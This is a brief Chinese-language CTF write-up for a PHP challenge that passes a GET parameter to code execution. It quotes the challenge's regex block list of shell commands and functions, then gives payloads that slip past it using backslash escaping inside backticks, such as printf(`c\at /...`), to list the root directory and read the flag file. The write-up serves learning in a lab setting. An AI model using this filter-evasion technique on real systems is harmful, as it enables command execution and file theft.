



分析源码
get传参code

过滤系统命令

'/sys|pas|read|file|ls|cat|tac|head|tail|more|less|php|base|echo|cp|\$|\*|\+|\^|scan|\.|local|current|chr|crypt|show_source|high|readgzfile|dirname|time|next|all|hex2bin|im|shell/i'

 

没有过滤 ``

利用\绕过过滤

并利用``执行命令 

利用printf打印结果

这里也可以用print_r()打印结果

也可以用var_dump(),var_export()等打印

 

 

构造payload:

?code=printf(`l\s /`);

 

发现存在

Fffffffffflagafag

 

读取 ?code=printf(`c\at /fffffffffflagafag`);

 

 

 

 